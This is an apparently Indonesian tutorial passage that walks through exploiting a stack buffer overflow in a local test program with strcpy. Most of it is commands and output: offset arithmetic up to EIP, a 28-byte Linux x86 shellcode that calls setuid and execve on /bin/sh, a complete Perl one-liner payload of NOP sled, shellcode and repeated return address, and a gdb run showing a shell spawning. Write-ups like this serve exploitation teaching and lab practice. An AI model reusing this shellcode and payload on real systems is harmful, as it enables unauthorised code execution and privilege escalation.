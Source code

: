 kita tahu bahwa untuk mengoverwrite register EIP kita membutuhkan 408 bytes.
```
root@bt:~# print "%d\n" $((408 -
```
kita kurangi dengan panjang NOPSLED kita. panjang NOPSLED kita adalah 200 bytes
```
root@bt:~# print "%d\n" $((408 - 200
```
shellcode yang akan kita gunakan shellcode yang akan memberikan shell. kita bisa pakai shellcode berikut :
```
"\xb0\x17\x31\xdb\xcd\x80\xb0\x0b\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```
shellcode tersebut berukuran 28 bytes.
dan kurangi 28 bytes untuk shellcode kita.
```
root@bt:~# printf "%d\n" $((408 - 200 - 28))
180
root@bt:~#
```
jadi kita 180 bytes untuk mengulangi alamat tersebut.
karena address memiliki panjang 4 bytes. kita harus membaginya dengan 4.
```
root@bt:~# printf "%d\n" $((180/4))
45
root@bt:~#
```
ok kita telah dapatkan berapa kali yang kita butuhkan untuk mengoverwrite EIP. yaitu 45.

maka payload kita akan seperti berikut :
```
NOPSLED + SHELLCODE + ESP

`perl -e 'print "\x90" x 200 . "\xb0\x17\x31\xdb\xcd\x80\xb0\x0b\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" . "\x04\xf1\xff\xbf" x 45'`
```
sekarang saatnya kita run paload kita tersebut langsung saja di debugger.
```
(gdb) run `perl -e 'print "\x90" x 200 . "\xb0\x17\x31\xdb\xcd\x80\xb0\x0b\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" . "\x04\xf1\xff\xbf" x 45'`
Starting program: /root/bof `perl -e 'print "\x90" x 200 . "\xb0\x17\x31\xdb\xcd\x80\xb0\x0b\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" . "\x04\xf1\xff\xbf" x 45'`

Breakpoint 1, main (argc=2, argv=0xbffff2d4) at bof.c:7
7               strcpy(buffer, argv[1]);
(gdb) continue
Continuing.
Executing new program: /bin/bash
(no debugging symbols found)
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
(no debugging symbols found)
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
(no debugging symbols found)
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
(no debugging symbols found)
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
(no debugging symbols found)
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
(no debugging symbols found)
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
(no debugging symbols found)
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
(no debugging symbols found)
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
(no debugging symbols found)
```